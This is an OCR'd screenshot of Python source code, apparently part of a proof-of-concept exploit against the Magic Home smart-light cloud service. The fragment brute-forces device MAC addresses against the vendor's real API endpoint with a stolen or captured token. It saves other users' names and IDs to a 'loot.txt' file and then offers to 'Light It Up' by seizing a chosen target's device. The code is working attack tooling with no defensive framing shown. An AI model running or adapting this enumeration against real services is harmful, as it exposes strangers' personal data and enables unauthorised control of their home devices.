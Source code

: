 ```
    print (Fore.WHITE + "[+] Enumerating ...")
    macbase = "C82E475DCE"
    macaddress = []
    a = ["%02d" % x for x in range(100)]
    for num in a:
        macaddress.append(macbase+num)

    with open('loot.txt', 'w') as f:
        for mac in macaddress:
            urlEnum = "https://wifij01us.magichue.net/app/getBindedUserListByMacAddress/ZG001"
            params = {
                "macAddress":mac
            }

            headersEnum = {
                "User-Agent": "Magic Home/1.5.1(ANDROID,9,en-US)",
                "Accept-Language": "en-US",
                "Content-Type": "application/json; charset=utf-8",
                "Accept": "application/json",
                "token": token,
                "Host": "wifij01us.magichue.net",
                "Connection": "close",
                "Accept-Encoding": "gzip, deflate"
            }

            response = requests.get(urlEnum, params=params, headers=headersEnum)
            resJsonEnum = response.json()
            data = (resJsonEnum['data'])
            if not data:
                pass
            elif data:
                found_macaddresses.append(mac)
                print (Fore.GREEN + "[*] MAC Address Identified: " + Style.RESET_ALL + f"{mac}" + Fore.GREEN + f", User: " + Style.RESET_ALL + f"{(data[0]['userName'])}, " + Fore.GREEN + "Unique ID: " + Style.RESET_ALL + f"{data[0]['userUniID']}, " + Fore.GREEN + "Binded ID: " + Style.RESET_ALL + f"{data[0]['bindedUniID']}")
                f.write(Fore.GREEN + "[*] MAC Address Identified: " + Style.RESET_ALL + f"{mac}" + Fore.GREEN + f", User: " + Style.RESET_ALL + f"{(data[0]['userName'])}, " + Fore.GREEN + "Unique ID: " + Style.RESET_ALL + f"{data[0]['userUniID']}, " + Fore.GREEN + "Binded ID: " + Style.RESET_ALL + f"{data[0]['bindedUniID']}\n")
            else:
                print (Fore.RED + "[-] No results found!")
                print(Style.RESET_ALL)

        if not found_macaddresses:
            print (Fore.RED + "[-] No MAC addresses retrieved")
        elif found_macaddresses:
            attackboolean = input(Fore.BLUE + "Would you like to Light It Up ? (y/N): " + Style.RESET_ALL)
            if (attackboolean.upper() == 'Y'):
                target = input(Fore.RED + "Enter a target device mac address: " + Style.RESET_ALL)
                lighItUp(target, token)
            elif (attackboolean.upper() == 'N'):
                print (Fore.CYAN + "Sometimes, belief isn’t about what we can see. It’s about what we can’t."+ Style.RESET_ALL)
            else:
                print (Fore.CYAN + "The human eye is a wonderful device. With a little effort, it can fail to see even the most glaring injustice." + Style.RESET_ALL)

if __name__ == "__main__":
    Main()
```
